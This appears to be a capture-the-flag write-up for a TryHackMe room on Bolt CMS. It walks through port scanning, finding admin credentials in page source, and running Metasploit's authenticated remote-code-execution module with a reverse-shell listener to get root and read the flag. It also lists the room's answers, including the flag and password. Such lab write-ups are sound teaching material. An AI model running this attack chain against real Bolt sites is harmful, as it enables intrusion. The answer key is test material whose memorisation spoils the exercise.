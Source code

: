 ```yaml
---
a hero is unleashed, This room is designed for users to get familiar with the Bolt CMS and how it can be exploited using Authenticated Remote Code Execution.
---
```

### rustscan

> found port 22, 80, 8000

> password found in (source code)

*Content Management System (CMS). These web applications are used to manage content on a website. For example, blogs, news sites, e-commerce sites and more! *

> gobuster, feroxbuster nothing so search on Google like *bolt cms default login page*

> then Go to the login page at http:\//yourdomain.com/bolt Sign up with your: Username or email.

> login to IP:8000/bolt/login with Bolt:boltadmin123 and get version CMS *Bolt 3.7.1*

[bolt CMS 3.7.0](https://www.exploit-db.com/exploits/48296)

### Metasploit

```
msfconsole -q 
```

```
search bolt
```

```bolt authenticated rce
use 0
```

```
show options
```

```use ur vpn
set LHOST vpn-ip
```

```
set LPORT 4444
```

```
set RHOST IP-room
```

```
set USERNAME Bolt
```

```
set PASSWORD boltadmin123
```

```
run
```

```root
whoami
```

```
ls
```

```
cd /home
```

```
cat flag.txt
```

==THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}==

- What port number has a web server with a CMS running? *8000*
- What is the username we can find in the CMS? *Bolt*
- What is the password we can find for the username? *boltadmin123*
- What version of the CMS is installed on the server? (Ex: Name 1.1.1) *Bolt 3.7.1*
- There's an exploit for a previous version of this CMS, which allows authenticated RCE. Find it on Exploit DB. What's its EDB-ID? *48296*
- Metasploit recently added an exploit module for this vulnerability. What's the full path for this exploit? (Ex: exploit/....)
Note: If you can't find the exploit module its most likely because your metasploit isn't updated. Run `apt update` then `apt install metasploit-framework`
*exploit/unix/webapp/bolt_authenticated_rce*
- Set the LHOST, LPORT, RHOST, USERNAME, PASSWORD in msfconsole before running the exploit *No answer needed*
- Look for flag.txt inside the machine. *THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}*

[[Break Out The Cage]]

